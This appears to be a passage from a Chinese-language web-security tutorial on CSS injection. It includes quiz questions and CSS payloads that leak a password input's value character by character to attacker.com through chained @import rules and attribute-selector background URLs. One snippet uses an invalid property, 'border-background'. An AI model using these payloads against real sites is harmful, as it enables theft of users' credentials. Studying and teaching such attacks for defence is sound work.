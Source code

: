 ## 章節 QA：

1. 請問側錄攻擊(Side Channel Attack)是利用 CSS 的哪個特性來實現的？

   - [ ] CSS 的 attribute selector
   - [ ] CSS 的 pseudo-class
   - [ ] CSS 的 pseudo-element
   - [ ] CSS 的 combinator

2. 什麼是 csrf？

   - [ ] Cross-Site Request Forgery
   - [ ] Cross-Site Scripting
   - [ ] Cross-Origin Resource Sharing
   - [ ] Content Security Policy

# 3-5：CSS Injection 進階篇

## 如何在保持連線的情況下，透過 CSS 偷取敏感資訊？

```css
@import url('http://attacker.com/payload?len=1');
@import url('http://attacker.com/payload?len=2');
@import url('http://attacker.com/payload?len=3');
@import url('http://attacker.com/payload?len=4');
@import url('http://attacker.com/payload?len=5');
```

載入時保持連線，但是首先只有第一個 import 會回傳 response，當偷到第一個字元後，就可以透過第二個 import 來偷取第二個字元，以此類推。

```css
input[name='password'][value^='a'] {
  background: url('http://attacker.com/?q=a');
}

input[name='password'][value^='b'] {
  background: url('http://attacker.com/?q=b');
}
```

## 一次偷一個也太慢了吧

```css
input[name='password'][value^='a'] {
  background: url('http://attacker.com/?q=a');
}

input[name='password'][value^='b'] {
  background: url('http://attacker.com/?q=b');
}

input[name='password'][value$='a'] {
  border-background: url('http://attacker.com/?suffix=a');
}

input[name='password'][value$='b'] {
  border-background: url('http://attacker.com/?suffix=b');
}
```
